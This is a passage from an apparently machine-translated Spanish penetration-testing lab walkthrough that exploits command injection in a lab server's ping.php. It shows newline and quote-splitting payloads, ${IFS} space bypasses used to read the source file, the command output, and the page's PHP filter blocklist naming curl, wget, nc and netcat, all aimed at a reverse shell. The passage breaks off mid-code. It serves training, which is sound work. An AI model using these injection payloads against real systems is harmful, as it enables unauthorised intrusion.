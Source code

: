 ```shell-session
xnoxos@htb[/htb]$ curl "http://monitoring.inlanefreight.local/ping.php?ip=127.0.0.1%0a'i'fconfig"

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.048 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.048/0.048/0.048/0.000 ms

<SNIP>

ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.203.101  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 dead:beef::250:56ff:feb9:67a5  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:67a5  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:67:a5  txqueuelen 1000  (Ethernet)
        RX packets 10055  bytes 1041358 (1.0 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2316  bytes 4030180 (4.0 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.8.120  netmask 255.255.254.0  broadcast 172.16.255.255
        inet6 fe80::250:56ff:feb9:a62d  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:a6:2d  txqueuelen 1000  (Ethernet)
        RX packets 21515  bytes 1890242 (1.8 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15  bytes 1146 (1.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Nuestro próximo desafío es encontrar un camino hacia una capa inversa. Podemos ejecutar comandos únicos, pero cualquier cosa con un espacio no funciona. De vuelta al[Pasando por alto los filtros espaciales](https://academy.hackthebox.com/module/109/section/1036)Sección de la`Command Injections`Módulo, recordamos que podemos usar el`($IFS) Linux Environment Variable`para evitar restricciones de espacio. Podemos combinar esto con el bypass de carácter de nueva línea y comenzar a enumerando formas de obtener una carcasa inversa. Para ayudarnos, echemos un vistazo al`ping.php`Archivo para comprender lo que se está filtrando para que podamos limitar la cantidad de conjeturas necesarias.

Volver a Burp y hacer la solicitud`GET /ping.php?ip=127.0.0.1%0a'c'at${IFS}ping.php`, o similares, nos da el contenido del archivo, y podemos trabajar para superar el filtro y encontrar una manera de establecer un shell inverso.

Código:php

```php
<?php
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);
$output = '';

function filter($str)
{
  $operators = ['&', '|', ';', '\\', '/', ' '];
  foreach ($operators as $operator) {
    if (strpos($str, $operator)) {
      return true;
    }
  }
  $words = ['whoami', 'echo', 'rm', 'mv', 'cp', 'id', 'curl', 'wget', 'cd', 'sudo', 'mkdir', 'man', 'history', 'ln', 'grep', 'pwd', 'file', 'find', 'kill', 'ps', 'uname', 'hostname', 'date', 'uptime', 'lsof', 'ifconfig', 'ipconfig', 'ip', 'tail', 'netstat', 'tar', 'apt', 'ssh', 'scp', 'less', 'more', 'awk', 'head', 'sed', 'nc', 'netcat'];
  foreach ($words as $word) {
```